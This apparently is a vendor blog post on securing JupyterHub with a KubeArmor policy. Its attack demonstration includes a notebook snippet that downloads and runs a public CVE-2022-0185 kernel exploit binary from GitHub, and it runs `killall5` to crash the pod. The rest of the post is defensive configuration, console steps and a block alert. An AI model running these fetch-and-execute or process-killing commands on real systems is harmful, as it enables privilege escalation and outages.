


# Zero-Trust Policies for JupyterHub Security

JupyterHub brings the power of notebooks to groups of users. It gives users access to computational environments and resources without burdening the users with installation and maintenance tasks. While this is a great model, attackers, or unethical users might take undue advantage of this model. The very nature of the Jupyter notebook is to allow users to do remote command/code execution.

Remote Command Injection is just the start. Left unchecked, the attacker can gain unauthorized access to the kubernetes resources, exfiltrate data and mount supply chain attacks to name a few.


## Insecure Shell

On a shell of jupyter notebook, any of the binaries are allowed to execute by default. If we try to execute some system binaries, it is observed that there is no restriction to do so. For example, consider the ```killall5``` system binary.


Executing ```killall5``` in Jupyter notebook isn’t restricted. The binary terminates all running processes and even affects the kubernetes environment as we can observe the pod getting restarted as the container crashes.



## Remote Code Injection

Jupyter notebook by nature allows remote code injection and execution of binaries from any source. To demonstrate this, an exploit for CVE-2022-0185 can be used as provided below:

```sh
!touch exploit
import urllib.request
urllib.request.urlretrieve("https://github.com/nyrahul/CVE-2022-0185/raw/master/exploit", "exploit")
!chmod +x exploit
!./exploit
```

On running the above in the notebook, we can see the exploit binary getting executed without any resistance.


Such an open environment is not desirable and AccuKnox can help with restricting this behavior by the use of KubeArmor policies.

## Attack Prevention

The following policy can be used to protect the Jupyter Notebook:

```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: protect-jupyter
  namespace: jupyter
spec:
  selector:
    matchLabels:
      app: jupyterhub
      component: singleuser-server
  network:
    matchProtocols:
    - fromSource:
      - path: /usr/local/bin/python3.11
      protocol: udp
    - fromSource:
      - path: /usr/local/bin/python3.11
      protocol: tcp
  file:
    matchDirectories:
    - dir: /
      recursive: true
    - dir: /usr/local/bin/
      readOnly: true
    - dir: /bin/
      readOnly: true
    - dir: /usr/bin/
      readOnly: true
  process:
    matchDirectories:
    - dir: /usr/local/bin/
    - dir: /usr/bin/
    - dir: /bin/
  action: Allow
```

The above KubeArmor policy

- Allows only python to use network primitives

- Allows only read access to ```/usr/local/bin/``` and ```/bin/``` folders

- Allows execution only from ```/usr/local/bin/``` and ```/bin/``` folders

## **Preventing exploitation by using AccuKnox Zero Trust CNAPP**

**Step 1**:  To create the policy Navigate to Runtime Protection → Policies. Then select ***Create Policy*** option from the screen.


**Step 2**: In the policy editor tool create/upload the above policy. Select the Cluster, namespace, save and then select **Save to workspace** option.


**Step 3**: Apply the policy by clicking on the three dots next to the saved policy and selecting ***Apply Policy***.


**Step 4**: Since this is an allow based policy, to effectively make use of it, we’ll need to set the default posture to block.

- **Step 4.1**: Navigate to Inventory → Cloud Workloads. Select the cluster that has jupyterhub deployed and click on **View Workloads**


- **Step 4.2**: Click on info at the top of the namespace where jupyterhub is deployed. Then select **Edit** in the pop up that opens


- **Step 4.3**: Click on the slider to the left of Process/File to shift to the default deny mode. A green popup appears on successful update.


**Step 5**: Now try executing ```!killall5``` in the jupyter notebook instance.

Try downloading and executing the exploit of CVE-2022-0185 with the script that was introduced above.



Alerts are generated for the attempts to exploit:

```sh
root:
  Action:Block
  ClusterName:gke-demo
  ContainerID:36e9a4bcf13b3e72aac683dc864414f7d122792b9f8d734f8b230a588cdfdb05
  ContainerImage:quay.io/jupyterhub/k8s-singleuser-sample:3.3.5@sha256:a839b70b9061119ef4117f37f25133d68294c764ae1c1048726c3e65b809d8eb
  ContainerName:notebook
  Cwd:/
  Data:lsm=SECURITY_BPRM_CHECK
  Enforcer:BPFLSM
  HostName:gke-do-637-cluster-pool-1-6a8519c6-d7x3
  HostPID:3410014
  HostPPID:3410013
  Labels:hub.jupyter.org/servername=,hub.jupyter.org/username=user1,release=jupyter-release,app=jupyterhub,chart=jupyterhub-3.3.5,component=singleuser-server,heritage=jupyterhub,hub.jupyter.org/network-access-hub=true
  NamespaceName:jupyter
  Operation:Process
  Owner:
    Name:jupyter-user1
    Namespace:jupyter
    Ref:Pod
  PID:49
  PPID:48
  ParentProcessName:/bin/dash
  PodName:jupyter-user1
  PolicyName:DefaultPosture
  ProcessName:/home/jovyan/exploit
  Resource:/home/jovyan/exploit
  Result:Permission denied
  Source:/bin/dash
  Timestamp:1712060619
  Type:MatchedPolicy
  UID:1000
  cluster_id:25444
  component_name:kubearmor
  instanceGroup:0
  instanceID:0
  workload:1
```

The result is permission denied for both as the policy applied does not allow any process to execute other than the ones present in ```/usr/local/bin```, ```/usr/bin/``` and ```/bin/``` directories. In addition, since the policy also prevents write to these directories, the jupyter environment is shielded from execution of malicious code by attackers.
